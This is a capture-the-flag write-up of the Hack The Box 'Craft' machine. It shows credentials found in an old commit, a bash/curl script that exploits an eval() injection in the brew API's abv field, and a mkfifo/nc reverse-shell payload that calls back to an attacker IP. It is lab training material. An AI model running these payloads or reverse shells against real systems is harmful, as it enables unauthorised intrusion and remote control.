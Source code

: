 ### Careless Dinesh

Dinesh left his credentials in one of the older commits `10e3ba4f0a`.


{% include image.html image_alt="fe0df88a.png" image_src="/d226e221-219f-4b50-8ab5-93ec882d5323/fe0df88a.png" %}


:roll_eyes:

What's scary is Dinesh didn't bother to change his password. This credential can still be used to login to the repo.


{% include image.html image_alt="7569c175.png" image_src="/d226e221-219f-4b50-8ab5-93ec882d5323/7569c175.png" %}


### Initial Foothold

I was browsing the repo when I chanced upon the Alcohol by Volume (ABV) issue Dinesh reported and "patched".


{% include image.html image_alt="952b64ab.png" image_src="/d226e221-219f-4b50-8ab5-93ec882d5323/952b64ab.png" %}


He unknowingly introduced a remote code execution bug into the API by using `eval()`. With that in mind, I wrote the following exploit in `bash` using `curl` as the main driver.

```bash
#!/bin/bash

USER=dinesh
PASS=4aUh0A8PbVJxgd
HOST=api.craft.htb
PAYLOAD=$1

TOKEN=$(curl -k -s --user "$USER:$PASS" https://$HOST/api/auth/login \
  | cut -d'"' -f4)

curl -s \
     -k \
     -H "X-Craft-Api-Token: $TOKEN" \
     -H "Content-Type: application/json" \
     -d "{\"name\":\"dipshit\",\"brewer\":\"dipshit\",\"style\":\"dipshit\",\"abv\":\"$PAYLOAD\"}" \
     https://$HOST/api/brew/
```

Let's get that reverse shell!

```
# ./craft.sh "__import__('os').system('rm -rf /tmp/p; mkfifo /tmp/p p; /bin/sh 0</tmp/p | nc 10.10.15.33 1234 >/tmp/p')"
```
